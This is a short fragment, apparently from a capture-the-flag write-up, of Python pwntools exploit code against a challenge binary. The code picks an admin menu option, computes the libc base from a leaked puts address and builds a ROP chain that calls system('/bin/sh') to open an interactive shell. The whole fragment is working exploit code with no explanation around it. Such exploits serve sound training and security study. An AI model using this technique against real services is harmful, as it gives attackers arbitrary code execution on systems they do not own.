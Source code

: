 ```py
# Go into admin function
p.sendline(b"3")
p.recvuntil(b"...")

if DEBUG:
    context.terminal = ["tmux", "splitw", "-h"]
    gdb.attach(p)

# Craft payload
print(puts_addr.decode())
libc.address = int(puts_addr.decode(), 0)  - libc.symbols.puts

rop = ROP(libc)

payload = flat([
    "\x00" * offset,
    p64(rop.rdi.address),
    p64(next(libc.search(b"/bin/sh\x00"))),
    p64(rop.rdi.address + 1),
    p64(libc.symbols.system),
])

print(payload)

p.sendline(payload)
p.interactive()
```
